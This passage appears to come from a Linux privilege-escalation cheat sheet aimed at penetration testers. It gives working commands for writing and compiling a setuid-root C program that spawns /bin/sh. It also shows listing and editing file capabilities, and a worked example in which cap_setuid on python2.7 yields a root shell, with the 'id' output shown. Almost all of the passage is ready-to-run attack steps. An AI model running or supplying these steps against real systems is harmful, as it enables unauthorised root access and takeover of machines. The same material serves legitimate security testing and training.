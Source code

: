 
### CREATE A SUID BINARY

```
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
```
```
gcc -o /tmp/suid /tmp/suid.c  
```
```
sudo chmod +x /tmp/suid 
```
```
sudo chmod +s /tmp/suid 
```
&nbsp;
## 9] Capabilities

### LIST CAPABILITIES OF BINARIES

```
╭─local_host@kali ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### EDIT CAPABILITIES

```
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### INTERESTING CAPABILITIES

Having the capability =ep means the binary has all the capabilities.

```
$ getcap openssl /usr/bin/openssl
openssl=ep
```

Example of privilege escalation with  `cap_setuid+ep`

```
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```
